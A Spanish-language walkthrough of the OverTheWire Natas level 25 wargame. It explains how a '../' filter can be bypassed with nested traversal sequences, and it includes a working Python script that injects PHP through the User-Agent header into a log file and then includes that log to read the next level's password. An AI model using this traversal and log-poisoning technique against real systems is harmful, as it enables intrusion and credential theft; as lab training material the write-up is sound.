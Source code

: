 A primera vista, parece que el parámetro `lang` podría ser el vehículo del ataque. Según el código fuente, se realizan algunas comprobaciones sobre él...

En primer lugar, no se permite incluir la cadena `natas_webpass`, por lo que el acceso directo al archivo `/etc/natas_webpass/natas26` no es factible.

En segundo lugar, se realiza una comprobación contra la presencia de `../`. En este caso, se eliminan todas las ocurrencias de `../` en `$filename`.

La cadena `"..././"` se convertirá en `../`, por lo que ahora se nos permite acceder completamente al sistema de archivos, y luego, también al archivo de registro generado por `logRequest()`.

Dado que `/etc/natas_webpass/natas26` no es accesible directamente, podemos intentar acceder a él a través del archivo de registro. Afortunadamente, la función `logRequest()` no realiza ninguna comprobación sobre la variable `$_SERVER['HTTP_USER_AGENT']`, por lo que podemos usarla para inyectar código PHP.

```python
import requests

URL = "http://natas25.natas.labs.overthewire.org/"

auth_name = 'natas25'
auth_pass = 'ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws'

s = requests.Session()
s.auth = (auth_name, auth_pass)

COOKIES = dict(PHPSESSID=s.get(URL).cookies['PHPSESSID'])

path = "....//....//....//....//....//"
PARAMS = dict(lang=path + "var/www/natas/natas25/logs/natas25_" + COOKIES.get("PHPSESSID") + ".log")

injection = '<?php readfile("/etc/natas_webpass/natas26") ?>'
HEADERS = {'User-Agent': injection}

r = s.post(URL, params=PARAMS, headers=HEADERS)
for x in r.iter_lines():
    line = x.decode('utf-8')
    if "]" in line:
        print(line)
```

Este script en Python está diseñado para realizar un ataque de inyección a un servidor web. Aquí están los pasos que sigue:

1. **Configuración de la Sesión:**
   * Usa la biblioteca `requests` para crear una sesión HTTP.
   * Se autentica en el servidor con las credenciales proporcionadas (`auth_name` y `auth_pass`).
2. **Obtención de Cookies:**
   * Realiza una solicitud GET al servidor para obtener la cookie `PHPSESSID` necesaria para la autenticación en las siguientes peticiones.
3. **Preparación de Parámetros y Cabeceras:**
   * Define un parámetro `lang` con una ruta de archivo construida que incluye el ID de la sesión (`PHPSESSID`). Esta ruta parece estar diseñada para acceder a un archivo de log específico.
   * Define una cabecera `User-Agent` que contiene un código PHP para leer el contenido del archivo `/etc/natas_webpass/natas26`.
4. **Envío de la Solicitud POST:**
   * Envía una solicitud POST al servidor con los parámetros y las cabeceras configuradas.
   * El código PHP en el `User-Agent` intenta ejecutar y mostrar el contenido del archivo que contiene la contraseña de la siguiente etapa.
5. **Procesamiento de la Respuesta:**
   * Lee la respuesta línea por línea y busca cualquier línea que contenga un corchete de cierre `]`, imprimiendo esas líneas en la consola.
